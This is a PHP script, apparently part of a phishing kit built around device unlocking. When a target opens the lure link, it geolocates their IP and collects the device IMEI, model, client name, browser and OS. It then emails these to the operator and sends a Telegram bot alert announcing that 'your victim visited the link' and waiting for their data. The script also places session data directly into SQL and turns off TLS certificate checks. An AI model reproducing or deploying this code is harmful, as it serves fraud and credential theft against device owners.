 <?php session_start(); 
use PHPMailer\PHPMailer\PHPMailer; use PHPMailer\PHPMailer\Exception; 
require ("../php/phpmailer/vendor/autoload.php");
require ("../php/mysql.php");
require ("ajax.php");
setlocale(LC_TIME, "es_BO.UTF-8");
date_default_timezone_set('America/La_Paz');

$generator=$_SESSION['generator'];

$selectINFO = "SELECT * FROM info_server where id_server='1' limit 1";
$resultINFO = $conn->query($selectINFO);
if ($resultINFO->num_rows > 0) { while($rowINFO = $resultINFO->fetch_assoc()) {
    $nameserver=$rowINFO['name'];
    $imgserver=$rowINFO['img'];
    $logoserver=$rowINFO['license'];
}}

$search_proccess = "SELECT * FROM process_data where generator='$generator'";
$result_proccess = $conn->query($search_proccess);
if ($result_proccess->num_rows > 0) {
while($row_proccess = $result_proccess->fetch_assoc()) 
{
    // && IP ADDRESS &&
    $ip_address=$_SERVER["REMOTE_ADDR"];
    $geo = unserialize(file_get_contents("http://www.geoplugin.net/php.gp?ip=$ip_address"));
    $ip_address = $geo["geoplugin_request"];
    $ip_address = str_replace(".", "_", $ip_address);
    $country = $geo["geoplugin_countryName"];
    $city = $geo["geoplugin_city"];
    $date = date("d/m/Y");
    $time = date ("H:i:s");
    
    // && SMTP && TELEGRAM API
    $search_configserver = "SELECT * FROM configserver where id_config='1'";
    $result_configserver = $conn->query($search_configserver);
    if ($result_configserver->num_rows > 0) { while($row_configserver = $result_configserver->fetch_assoc()) 
    {
        
    $smtp_config=$row_configserver['smtp'];       
    $smtp_config=explode("%", $smtp_config);
    $SMTP_HOST = $smtp_config[0];
    $SMTP_USER = $smtp_config[1];
    $SMTP_PASS = $smtp_config[2];
    $SMTP_PORT = $smtp_config[3];
    $SMTP_FROM = $smtp_config[4];

    $TELEGRAM_API=$row_configserver['telegram_key'];    
        
    }}
    
    $info = $row_proccess['info'];
    $info = explode("%", $info);
    
    // && INFO PROCESS &&
    $IMEI_DATA = $info[0];
    $MODEL_DATA = $info[1];
    $CLIENT_DATA = $info[2];
    $EMAIL_LOGIN = $row_proccess['email_script'];
    $create_by=$_SESSION['create_by'];
    
    // && USER DETAILS &&&
    $TELEGRAM_USER = $_SESSION['telegram_user'];
    $EMAIL_TO=$_SESSION['email_user'];
}}



$message = file_get_contents("../php/templates/visits.html");

$message = str_replace('{img_background}', $imgserver, $message);
$message = str_replace('{img_logo}', $logoserver, $message);
$message = str_replace('{name_server}', $nameserver, $message);

$message = str_replace('%email%', $email, $message);
$message = str_replace('%id%', $pass, $message);

$message = str_replace('%imei%', $IMEI_DATA, $message);
$message = str_replace('%modelo%', $MODEL_DATA, $message);
$message = str_replace('%cliente%', $CLIENT_DATA, $message);
$message = str_replace('%os%', $os, $message);
$message = str_replace('%browser%', $browser, $message);
$message = str_replace('%ip_address%', $ip_address, $message);
$message = str_replace('%date%', "$date a la(s) $time", $message);
$message = str_replace('%country%', "$country $city", $message);
$message = str_replace('%isp%', $isp, $message);

$mail = new PHPMailer(true);

try {
    $mail->SMTPDebug = 0;                                       
    $mail->isSMTP();                                          
    $mail->Host       = $SMTP_HOST;  
    $mail->SMTPAuth   = true;                                 
    $mail->Username   = $SMTP_USER;                
    $mail->Password   = $SMTP_PASS;                     
     
    if($SMTP_PORT == 465)
    {
       $mail->SMTPSecure = 'ssl';                                
       $mail->Port       = 465;      
    }else
    {
       $mail->SMTPSecure = 'tls';                                
       $mail->Port       = 587;        
       $mail->SMTPOptions = array(
                    'ssl' => array(
                        'verify_peer' => false,
                        'verify_peer_name' => false,
                        'allow_self_signed' => true
                    )
                ); 
    }
    $mail->XMailer = ' ';
    $mail->CharSet = 'UTF-8'; 
    $mail->Helo = "server.".$_SERVER['SERVER_NAME']; 
    $mail->setFrom($SMTP_FROM, $nameserver);
    $mail->addAddress($EMAIL_TO);             

    $mail->isHTML(true);                               
    $mail->Subject = 'Abrio el Link';
    $mail->Body    = $message;

    $mail->send();
} catch (Exception $e) {
}
$MSG_TELEGRAM='
<b> 👀 Su víctima visitó el enlace 👀 </b>
🔐 A la espera de datos...🔐
-------------------------------------------------- ----------
⌨️ <b>Proceso de desbloqueo </b>
👤 Cliente: '.$CLIENT_DATA.'
🔢 IMEI/SN: '.$IMEI_DATA.'
📱 Modelo: '.$MODEL_DATA.'
-------------------------------------------------- ----------
⌨️ <b>Detalles de la visita</b>
📲 Dispositivo: '.$os.'
🌐 Explorador: '.$browser.'
📍 IP: '.$ip_address.'
📆 Fecha: '.$date.' - '.$time.'
🌎 Country: '.$country.' 🏙Ciudad: '.$city.'
📡 Internet: '.$isp.'
-------------------------------------------------- ----------
💻 Server: <b>'.$nameserver.'</b>.
Copyright ©️ 2024 Todos los derechos reservados.
';

$url = 'https://api.telegram.org/bot'.$TELEGRAM_API.'/sendMessage?chat_id='.$TELEGRAM_USER.'&parse_mode=HTML&text='.urlencode($MSG_TELEGRAM);
file_get_contents($url);    

$_SESSION['Send_Push_Visits']="OK";

?>
